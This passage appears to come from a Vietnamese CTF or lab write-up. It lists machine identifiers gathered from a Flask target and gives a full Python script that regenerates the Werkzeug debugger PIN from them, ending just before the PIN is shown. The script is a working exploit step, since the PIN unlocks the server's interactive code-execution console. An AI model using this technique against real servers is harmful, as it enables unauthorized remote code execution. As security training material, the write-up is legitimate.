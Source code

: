  ![alt text](image-35.png)
- Ta thu được boot_id: <b>a0a129b6-a505-498d-ae00-b06b36834d23</b> tuy nhiene /etc/machie-id và proc/self/cgroup bị rỗng 
- rồi bây giờ chúng ta đã thu được các thông tin quan trọng để thực hiện brute-force mã pin:
- 1. username: <b>cookiehanhoan</b>
- 2. uuid: <b>135027807911175</b>
- 3. boot_id: <b>a0a129b6-a505-498d-ae00-b06b36834d23</b>
Chúng ta cùng tạo nên mã pin với tập lệnh python
```python
import hashlib
from itertools import chain
probably_public_bits = [
    'cookiehanhoan',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '135027807911175',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'a0a129b6-a505-498d-ae00-b06b36834d23'  # get_machine_id(), /etc/machine-id
]
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
- Thu được mã pin: